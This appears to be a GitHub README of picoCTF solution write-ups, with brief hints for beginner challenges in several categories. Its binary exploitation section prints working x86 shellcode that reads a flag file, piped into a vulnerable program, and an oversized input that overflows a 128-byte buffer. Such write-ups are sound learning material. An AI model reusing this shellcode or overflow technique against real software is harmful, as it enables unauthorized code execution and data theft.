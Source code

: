 # picoCTF

I will update this as I work through all of the challenges. I highly recommend trying them on your own before reading my solutions.

## General Skills

#### 2 Warm
This type of problem is really easy to solve with python. Open python in your terminal and use ```bin()``` to convert the number to binary.

#### Let's Warm Up
This is another one that is really easy with python. When converting hexadecimal to ASCII my method of choice is to use ```chr()```

#### Warmed Up
Another easy python challenge to convert to decimal ```int('0x3D', 16)```

#### Bases
If you haven't noticed already, python is your friend. This one I solved using ```base64.b64decode(encoded_string)```

#### First Grep
Easy grep, solved using ```cat file | grep "pico"```

## Forensics

#### Glory of the Garden
I went straight to the basics on this one. Flags are often hidden at the end of the image, and since we know the flag format we can search for it with ```strings garden.jpg | grep "pico"```

#### unzip
Another easy one, just unzip.

## Cryptography

#### The Numbers
This is another once where knowing the flag format helps us out significantly. We can see ```{ }``` which is part of our flag format, and can also see that none of the numbers are greater than 26. This probably means it's a simple substitution cypher. To solve this I wrote a pythons script that takes the alphabet and the provided numbers to print out the flag. ```python the_numbers.py```

#### 13
This is a caesar cipher, so just decode like any other.

#### Easy 1
This is vigenere cipher which we can pretty much tell by the provided table. To solve this one I wrote a python script ```easy1.py```

## Binary Exploitation

#### handy-shellcode
This wasn't too hard but I always have the most fun with these. There's no overflow required for this challenge, just basic shellcode really. The first thing I did was convert the path of the file to shellcode:

<code>
\x68\x74\x00\x00\x00\x68\x67\x2e\x74\x78\x68\x2f\x66\x6c\x61\x68\x33\x33\x65\x62\x68\x35\x35\x64\x32\x68\x64\x31\x36\x37\x68\x32\x39\x31\x66\x68\x32\x64\x36\x34\x68\x61\x38\x31\x36\x68\x34\x65\x31\x32\x68\x66\x30\x62\x38\x68\x65\x5f\x36\x5f\x68\x6c\x63\x6f\x64\x68\x73\x68\x65\x6c\x68\x6e\x64\x79\x2d\x68\x73\x2f\x68\x61\x68\x62\x6c\x65\x6d\x68\x2f\x70\x72\x6f
</code><br/><br/>
 
Then I completed it by adding the instructions to read the file, and executing the shellcode:
  
<code>
echo -e '\x31\xc9\x51\x68\x74\x00\x00\x00\x68\x67\x2e\x74\x78\x68\x2f\x66\x6c\x61\x68\x33\x33\x65\x62\x68\x35\x35\x64\x32\x68\x64\x31\x36\x37\x68\x32\x39\x31\x66\x68\x32\x64\x36\x34\x68\x61\x38\x31\x36\x68\x34\x65\x31\x32\x68\x66\x30\x62\x38\x68\x65\x5f\x36\x5f\x68\x6c\x63\x6f\x64\x68\x73\x68\x65\x6c\x68\x6e\x64\x79\x2d\x68\x73\x2f\x68\x61\x68\x62\x6c\x65\x6d\x68\x2f\x70\x72\x6f\x31\xc0\xb0\x05\x89\xe3\xcd\x80\x89\xc3\x31\xc0\xb0\x03\x89\xe1\x31\xd2\xfe\xc2\xcd\x80\x50\x53\x31\xc0\xb0\x04\x31\xdb\xfe\xc3\xcd\x80\x5b\x58\x83\xf8\x01\x74\xe1\xb0\x06\xcd\x80\xb0\x01\xcd\x80' | ./vuln
</code>

#### practice-run-1
This one is too simple to need an explanation.

#### OverFlow 0
This one requires a basic overflow to retreive the flag. We can see that the buffer is 128 bytes, so we'll feed it more than that to crash the program and retrive the flag.
  
<code>
./vuln 666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666666
</code>

## Web Exploitation

#### Insp3ct0r
This one really doesn't need much info. Read all of the source code.

## Reverse Engineering

#### vault-door-training
Source code is your friend.
